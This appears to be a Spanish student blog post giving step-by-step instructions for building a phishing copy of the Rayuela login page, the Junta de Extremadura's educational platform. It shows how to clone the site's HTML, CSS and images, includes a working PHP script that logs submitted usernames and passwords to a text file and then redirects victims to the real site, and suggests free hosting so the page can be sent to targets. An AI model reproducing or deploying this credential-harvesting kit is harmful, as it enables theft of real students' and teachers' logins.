 ```yaml
---
layout: post
current: post
cover: assets/images/3.jpg
navigation: True
title: Phishing Rayuela
date: 2021-01-29 10:18:00
tags: 2-Bachillerato
class: post-template
subclass: 'post'
author: aalmeidar
---
```


# Phishing
Este trabajo esta relacionado con el anterior, puesto que, tras exponer el video de la prueba de una página web de phishing, elabore una exposicion de como montar este tipo de servidores de forma totalmente gratuita.
## Introducción
En esta entrada, elaboraremos paso a paso una aplicación web phishing. Primeramente, definamos lo que es el phishing:

El *phishing* es una técnica que consiste en el envío de un correo electrónico por parte de un ciberdelincuente a un usuario simulando ser una entidad legítima con el objetivo de robarle información privada, realizarle un cargo económico o infectar el dispositivo. Para ello, adjuntan archivos infectados o enlaces a páginas fraudulentas en el correo electrónico.

Tendremos como objetivo la pagina de Rayuela (Plataforma Integral Educativa de la Consejería de Educación de la Junta de Extremadura).
Para ello, usaremos las tecnologías frecuentes en el desarrollo web (HTML, CSS, PHP) y un hosting.

## Video

[![Watch the video](https://i.ytimg.com/vi/-Hrk3IBMZGI/maxresdefault.jpg)](https://www.youtube.com/watch?v=-Hrk3IBMZGI)

## Estudio de la web
Lo primero que debemos hacer es acceder a la web y tener un pequeño mapa mental de la estructura externa. Ademas, podemos ir echando un vistazo a las tecnologías usadas y como han sido desarrolladas (si el css esta junto a html o en una hoja de estilo, etc).


## HTML
Para comenzar, copiaremos el html de la web objetivo. HTML es un lenguaje de marcado que se utiliza para el desarrollo de páginas de Internet. Se trata de la sigla que corresponde a HyperText Markup Language, es decir, Lenguaje de Marcas de Hipertexto, que podría ser traducido como Lenguaje de Formato de Documentos para Hipertexto.
Podemos hacer esto de varias formas:
- Usar el comando ```wget``` o ```curl``` a través de la terminal para obtener el html
- Click derecho, ver código fuente, copiamos y guardamos en un archivo con extensión html.
    
Si vamos viendo nuestro progreso veremos la pagina que aun no se parece mucho a nuestro objetivo, la estética la conseguiremos con css.


## CSS
La sigla CSS corresponde a la expresión inglesa Cascading StyleSheets, que puede traducirse como “Hojas de estilo en cascada”. El concepto se utiliza en el ámbito de la informática para referirse a un lenguaje empleado en el diseño gráfico.
Si CSS esta externo al html, nos será necesario buscar la ruta de este archivo. Comunmente, entre las etiquetas head de html se coloca la ruta a este archivo. En nustro caso, se observa la ruta en una línea.

Si accedemos a la dirección, encontraremos todo el css que afecta a nuestra web. Hacemos igual que con el html, lo copiamos y guardamos en un archivo con extensión css. (Se debe de poner la misma ruta y nombre).

Ya se observa una mejora de nuestra web pero aun nos falta algo, las imágenes.



## Imágenes
Para obtener las imágenes, podemos usar [herramientas online](https://imagecyborg.com/) aunque en nuestro caso no obtendremos todas, puesto que, también hay imágenes en el css.
Por orta parte, se puede hacer manualmente, si observamos el html veremos las rutas de las imágenes al igual que en el css.
Para ir mas rápido en la búsqueda de imágenes, se puede usar filtros por .png .jpg .gif.
Una vez encontradas, las descargaremos y guardaremos con la misma ruta. Ya tenemos la web copiada.

## PHP
PHP (acrónimo recursivo de PHP: Hypertext Preprocessor) es un lenguaje de código abierto muy popular especialmente adecuado para el desarrollo web y que puede ser incrustado en HTML.
Lo usaremos para recoger la información de los inputs y guardarla en un archvio txt.

```php
<?php
file_put_contents("usernames.txt", "Account: " . $_POST['username'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://rayuela.educarex.es');
exit();
```
La función file_put_contents escribe informacion en un fichero tiene esta sintaxis:
file_put_contents(filename, data, mode, context)
La función PHP header nos permite enviar encabezados sin formato al cliente (robot, navegador…). Es una manera de forzar dicho envío antes de que se lean los encabezados de la propia página.
Ahora deberemos ir al código HMTL y cambiar en los inputs los valores a username y password. Nos quedaría algo asi:
```html
<div class="columna">
  <label for="ussername">Usuario</label>
  <input name="username" type="text" id="username" />
</div>
<div class="columna">
  <label for="password">Clave</label>
  <input name="password" type="password" id="password " />
</div>
```
Además, debemos cambiar la redirección del action de form  a login.php:

```html
<form name="formulario" id="formulario" method="post" action="login.php">
```
## Hosting 

Después de tener todo el login perfecto para el phishing toca subirlo a la red para poder enviarlo. En este caso usaremos un [hosting gratuito](https://000webhost.com).



## Práctica

Para comprobar los conociminetos adquiridos, realiza un página phishing a esta [Web](https://aalmeidar.000webhostapp.com)




## Para ampliar

- [Ejemplo de phsishing paso a paso (BBVA)](https://www.bbva.com/es/un-ejemplo-de-phishing-paso-a-paso/)
- [Ingeniería social: Phishing y baiting](http://repository.unipiloto.edu.co/bitstream/handle/20.500.12277/6349/Ingenieria%20social%20Phishing%20y%20Baiting.pdf?sequence=1&isAllowed=y)
- [Los ataques de ingeniería social más habituales son los fraudes online](https://cuadernosdeseguridad.com/2020/07/ingenieria-social-engano-pablo-iglesias-phishing/)
- [Metodologías de Ingeniería Social ](http://openaccess.uoc.edu/webapps/o2/bitstream/10609/81255/6/jrodriguezrinTFM0618memoria.pdf)
- [Phishing: la automatización de la ingienería social](https://repository.eafit.edu.co/bitstream/handle/10784/2443/salazar_natalia_2007.pdf?sequence=1)
